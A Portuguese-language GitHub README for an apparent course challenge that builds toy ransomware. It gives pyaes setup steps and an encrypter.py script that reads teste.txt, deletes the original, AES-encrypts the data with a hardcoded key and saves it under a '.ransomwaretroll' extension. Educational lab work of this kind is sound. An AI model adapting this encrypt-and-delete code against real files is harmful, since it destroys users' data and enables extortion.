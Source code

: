 # Desafio Ransomware

### Configurando as dependencia caso não tenha.

1. **Instalar python3-venv**: Instale a ferramenta para criar ambientes virtuais.
2. **Criar o ambiente virtual**: Use o comando `python3 -m venv myenv` para criar o ambiente.
3. **Ativar o ambiente virtual**: Execute `source myenv/bin/activate` para ativar o ambiente.
4. **Instalar pyaes**: Com o ambiente ativo, instale o pyaes com `pip install pyaes`.
5. **Verificar a instalação**: Entre no Python e use `import pyaes` para confirmar.
6. **Desativar o ambiente virtual**: Use `deactivate` para sair do ambiente.

Agora, você pode usar o pacote **pyaes** no seu projeto de maneira isolada e segura, sem afetar o sistema global do Kali Linux.


### Resutados

#### Sem Criptografia 

![nao_criptografada](https://github.com/user-attachments/assets/ab5bc588-2332-404e-a498-6975fc99c447)

##### codigos usado para encrypter.py


```python
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()


#### Criptografado 
![criptografada](https://github.com/user-attachments/assets/a67bdf49-dcf5-4262-99ea-2295575e61c7)
